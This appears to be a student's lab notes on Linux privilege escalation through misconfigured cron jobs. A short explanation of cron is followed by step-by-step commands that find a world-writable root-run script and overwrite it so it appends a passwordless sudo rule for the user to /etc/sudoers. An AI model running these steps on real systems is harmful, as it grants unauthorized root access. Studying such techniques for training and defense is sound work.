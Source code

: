 #### Cron Jobs
- Linux implementas task sheduleing through a utility called Cron.
- cron is a time-based service that runs applications,script and other commands repeatedly on a specific sheduel.
- An application,or script that has been configured to be run repeatedly with cron is known as a Cron job.Cron can be used to automate or repeat a wide variety of functions on a system,from daily backups to system upgrades and patches
- The crontab file is configuration file that is used by the Cron utility to store and track Cron jobs that have been created.
#### Exploiting Misconfigured Cron jobs
- Cron jobs can also be run as any user on the system.this a very important factor to keep an eye on as we will be targeting Cron jobs that have been configured to be run as the "root" user.
- This is primarily beacuse,any script or command that is run by a  cron job will run as the root user and will consequently provide us with root access.
- In order to elevate our privileges,we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.
#### Exploiting cronjob
- after getting initial access
- groups [for checking the group the current users belongs to ]
- crontab -l [for listing available cron tab for this current user ]
- ls -al [ for listing available files,there is a file name message who is own by root,now question is why root user store a file into current user student ]
- now let's find out where the where the actual path of the message file.
- cd / [ move to the root directory]
- grep -rnw /usr -e "/home/student/message"
- we will find message file in tmp directory and the previous command also show a shell file.
- ls -al /usr/local/share/copy.sh [ if we check the permission we will see it is own by root,but user,group and others all have the read,write and execution permission ]
- now we need to modify this but no editor like vim,nano exist,so we need to follow other techniques
- printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh [ this scripts says student user don't need password,and redirect the file into sudoers ]
- sudo -l [ list all the sudoer files ]
- sudo su [ for switching to root user]

